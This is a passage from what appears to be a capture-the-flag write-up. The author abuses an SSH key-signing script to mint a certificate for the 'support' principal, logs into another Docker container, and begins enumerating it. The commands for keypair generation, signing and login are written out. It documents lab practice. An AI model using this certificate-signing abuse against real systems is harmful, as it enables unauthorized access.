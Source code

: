 The script expects a public key file, a name and a principal.

First I thought in the direction of web vulnerabilities and tried various web exploitations via burp.

And then I suspected that the signing would continue and that we could gain access to other things.

Until it worked there was a lot of try & error, but here briefly the steps as they worked.

__1. Create RSA Keypair:__

```bash
ssh-keygen -f support -t rsa
```

__2. Sign Key:__

```bash
./sign_key_api.sh support.pub support support > support-cert.pup
```

__3. Login:__

```bash
ssh support@172.223.0.1 -i support -o CertificateFile=support-cert.pub -p 2222
```

And at some point it worked!

![Screenshot28](./screenshots/28.png)

Well...but I was only a user on this other docker system and not root.

<br>

### System Enumeration - SSG

So I continued to enumerate the system in the new container.

It was interesting, for example, that we also have the user `zzinter` here.

![Screenshot29](./screenshots/29.png)
